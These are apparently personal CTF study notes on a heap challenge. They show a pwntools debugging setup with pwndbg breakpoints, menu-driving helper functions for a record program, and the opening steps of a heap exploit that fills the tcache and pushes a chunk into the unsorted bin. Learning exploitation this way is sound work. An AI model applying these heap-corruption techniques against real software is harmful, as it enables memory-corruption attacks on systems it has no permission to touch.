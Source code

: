 ```py
context.log_level = 'debug'
```
shows more debugging details
```py
s = '''
b * edit_record+384
b * delete_record
'''

gdb.attach(p, s)
```
debug with pwndbg to see the inside of the program together with breakpoints attached that stops the program at points you wish to inspect. 


### output parsing 
```py
def add_record(size, data):
    p.sendlineafter("Your choice: ", "1")
    p.sendlineafter("Input Temperature:", "1")
    p.sendlineafter("Input Description Size: ", str(size))
    p.sendafter("Input Description: ", data)

def edit_record(index, size, buffer): # size <= 0x200
    p.sendlineafter("Your choice: ", "4")
    p.sendlineafter("Input index: ", str(index))
    p.sendlineafter("Input Temperature: ", "1")
    p.sendlineafter("Input Description Size: ", str(size))
    p.sendafter("Input Description: ", buffer)

def delete_record(idx):
    p.sendlineafter("Your choice: ", "3")
    p.sendlineafter("Input Index:", str(idx))

def print_record():
    p.sendlineafter("Your choice: ", "2")
    #print(p.clean().decode())
```
Make functions to parse the outputs more easily and reduce redundancies of functions from the menu. Try to be more consistant on the parsing. For example, if you are using string `"Your choice: "` instead of byte string `b"Your choice: "`. It is better to then use string every other outputs. 
You were stuck here for quite a while still because of a pretty unknown reason, probably because of inconsistency. The problem was fixed when you copied this specific part from the template.


### Process
```py
for i in range(8):
    add_record(0x200, b'AAAAAAAA') # 0 

# fill up the tcache
for i in range(8):
    if i == 6:
        continue
    delete_record(i)

# using 7 here would merge with top chunk 
delete_record(6)
```
Allocate 8 chunks of the same size, in order words, `malloc` 8 times.  
Then, when we free 7 chunks out of those 8 chunks, `tcachebin` would be filled up.  
Next, free the last chunk while making sure that it is not the neighbour of the `Top chunk` to avoid merging. Because the priority of a chunk merging with a freed chunk or `Top chunk` is higher than going into `unsortedbin`  